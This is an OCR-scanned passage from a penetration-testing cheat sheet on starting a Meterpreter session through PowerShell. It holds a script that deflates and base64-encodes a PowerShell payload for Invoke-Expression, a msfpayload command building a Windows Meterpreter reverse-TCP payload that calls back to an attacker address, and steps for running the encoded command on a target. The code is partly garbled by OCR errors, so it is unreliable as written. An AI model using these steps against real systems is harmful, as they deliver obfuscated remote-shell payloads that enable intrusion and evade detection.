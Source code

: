 ### On the target system \(run powershell\(x86\)\)

```text
1. powershell. exe -noexi t -encodedCommand paste encoded Meterpreter 
string here 
PROFIT 
```

### Encodemeterpreter.ps1 \[7\]

```text
# Get Contents of Script
$contents = Get-Content audit.psl
# Compress Script
$ms = New-Object IO.MemoryStream
$action = [IO.Compression.CompressionMode]: :Compress
$cs =New-Object IO.Compression.DeflateStream ($ms,$action)
$sw =New-Object IO.StreamWriter ($cs, [Text.Encoding] ::ASCII)
$contents I ForEach-Object {$sw.WriteLine($ I)
$sw.Close()
# Base64 Encode Stream
$code= [Convert]: :ToBase64String($ms.ToArray())
$command= "Invoke-Expression '$(New-Object IO.StreamReader('$(New-Object
IO. Compression. DeflateStream ('$(New-Object IO. t4emoryStream
(, '$ ( [Convert] : : FromBase64String ('"$code'") ) I I ,
[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
# Invoke-Expression $command
$bytes= [System.Text.Encoding] ::Unicode.GetBytes($command)
$encodedCommand = [Convert]: :ToBase64String($bytes)
# Write to Standard Out
Write-Host $encodedCommand
```

Copyright 2012 TrustedSec, LLC. All rights reserved.   
Please see reference \[7\] for disclaimer

## Using powershell to start meterpreter \(second method\)

### On bt attack box

```text
1. msfpayload windows/rneterpreter/reverse tcp LHOST=10.1.1.1
LPORT~8080 R I msfencode -t psh -a x86
```

### in the attacking system

```text
1. c:\powershell
2. PS c:\ $cmd = 'PASTE THE CONTENTS OF THE PSH SCRIPT HERE'
3. PS c:\ $u = [System.Text.Encoding]: :Unicode.GetBytes($crnd)
4. PS c: \ $e = [Convert] ::ToBase64String($u)
5. PS c:\ $e
6. Copy contents of $e
```
